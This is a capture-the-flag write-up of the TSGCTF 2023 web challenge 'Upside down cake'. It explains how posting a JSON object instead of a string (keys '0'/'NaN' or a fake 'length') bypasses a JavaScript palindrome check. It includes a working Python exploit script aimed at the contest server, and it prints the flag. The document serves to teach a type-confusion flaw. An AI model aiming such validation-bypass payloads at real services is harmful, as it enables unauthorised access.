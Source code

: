 ```yaml
---
title: 2023 TSGCTF - Upside down cake
author: thanguyen165
date: 2023-11-04 00:00:00 +0700
categories: [Write-ups, 2023_TSGCTF]
tags: [Web Exploitation, write-ups]
---
```


* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

```js
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```
{: file="main.mjs" }

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```js
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```
{: file="nginx.conf" }

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only string is allowed?

## Exploitation

We can post an object, or an array.

Array dont work here, because it wont pass the length condition.

We need a data type that dont have length attribute.

That's object, aka map in C++, dictionary in Python.

### Way 1

With an object, ```string.length``` returns ```undefined```, an the condition ```string.length < 1000``` returns ```true```. Pass!

But there is a problem with the loop. The index ```string.length - i - 1``` is inaccessible.

Slow down a little bit, ```string.length - i - 1``` equals to ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Way 2

This is an object, so its attributes are accessible by dot operator, too! It took me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```